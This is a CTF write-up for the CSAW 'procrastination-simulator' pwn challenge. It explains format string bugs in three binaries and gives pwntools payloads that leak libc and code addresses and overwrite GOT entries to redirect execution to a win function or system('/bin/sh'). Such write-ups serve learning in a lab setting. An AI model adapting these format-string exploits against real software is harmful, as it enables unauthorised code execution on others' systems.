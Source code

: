 Table of Contents
=================

   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
<br />
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password. <br />
the binaries are changed 3 times(at port 16, 32, 46), we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dive into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
